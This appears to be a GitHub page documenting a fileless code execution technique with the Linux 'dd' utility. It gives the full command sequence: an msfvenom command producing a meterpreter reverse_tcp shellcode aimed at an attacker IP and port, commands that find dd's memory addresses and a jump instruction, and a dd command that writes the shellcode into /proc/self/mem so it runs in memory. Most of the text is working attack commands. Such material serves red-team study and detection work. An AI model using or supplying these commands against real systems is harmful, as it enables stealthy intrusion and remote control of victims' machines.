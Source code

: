 # dd

## 01 - Fileless code execution

Generate a shellcode implant.

```
userware@hackware-os:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<attacker_IP> lport=<attacker_PORT> -f c | grep -Eo "\\\\x[[:xdigit:]]+" | tr -d "\n"
```

Retrieve the first addresses of `dd` program.

```
$ setarch x86_64 -R dd if=/proc/self/maps 2>/dev/null | grep /bin/dd
555555554000-555555556000 r--p 00000000 08:01 786821                     /usr/bin/dd
..[omitted]..
```

Dump the program to retrieve the assembly instructions. We'll take the `jmp` operator with the address `6753`.

```
$ objdump -Mintel -d $(which dd) | grep fclose                                  
0000000000002170 <fclose@plt>:
    671a:       e8 51 ba ff ff          call   2170 <fclose@plt>
    6753:       e9 18 ba ff ff          jmp    2170 <fclose@plt>
```

Then we execute in the target with the shellcode through memory.

```
$ echo -en "<shellcode>" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 555555554000 + 0x6753 )) conv=notrunc 10<&0 11<&1
```

---
## References

- [Sektor7 Blog: ](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)